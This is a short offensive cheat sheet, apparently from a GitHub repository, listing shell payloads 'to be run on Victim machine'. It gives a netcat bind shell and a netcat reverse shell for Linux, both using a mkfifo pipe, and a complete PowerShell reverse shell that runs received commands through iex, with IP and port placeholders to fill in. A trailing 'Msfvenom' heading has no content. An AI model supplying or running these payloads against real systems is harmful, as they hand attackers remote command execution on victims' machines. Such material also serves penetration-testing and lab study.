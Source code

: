# Shell Payload

## Alternative to "-e - execute " flag in nc win/linux ( to be run on Victim machine )

- Creating a bind shell for linux 

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

  (It creates a pipe and then starts the nc listner/executes the command)

- Creating a Reverse shell for Linux

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

### Nc using pipe for windows
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
Replace the <IP> & <Port>

# Msfvenom

